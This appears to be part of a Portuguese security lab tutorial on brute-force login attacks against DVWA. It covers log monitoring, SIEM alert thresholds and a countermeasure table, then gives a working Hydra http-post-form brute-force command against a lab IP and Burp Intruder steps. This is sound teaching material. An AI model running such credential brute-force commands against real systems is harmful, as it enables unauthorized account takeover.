 #### Logs de Segurança

```bash
# Eventos a monitorar
- Múltiplas tentativas de login
- Logins de IPs desconhecidos
- Padrões de requisições automatizadas
- User-Agents suspeitos
```

#### Alertas Automatizados

```bash
# Configurações SIEM
- > 5 falhas de login/min por IP
- > 50 falhas de login/hora global
- Tentativas fora do horário comercial
- Geolocalização anômala
```

### 📊 Implementação de Contramedidas

| Medida            | Eficácia   | Complexidade | Custo    |
| ----------------- | ---------- | ------------ | -------- |
| **Senha forte**   | Alta       | Baixa        | Gratuito |
| **Rate limiting** | Alta       | Média        | Baixo    |
| **MFA**           | Muito Alta | Média        | Médio    |
| **CAPTCHA**       | Média      | Baixa        | Gratuito |
| **WAF**           | Alta       | Alta         | Alto     |

---

## 🔍 Técnicas Avançadas de Ataque

### 🛠️ Ferramentas Alternativas

#### Hydra (Alternativa Popular)

```bash
hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

#### Burp Suite (Profissional)

```bash
# Configuração do Burp Intruder
1. Interceptar requisição de login
2. Enviar para Intruder
3. Configurar posições de payload
4. Carregar wordlists
5. Executar ataque
```
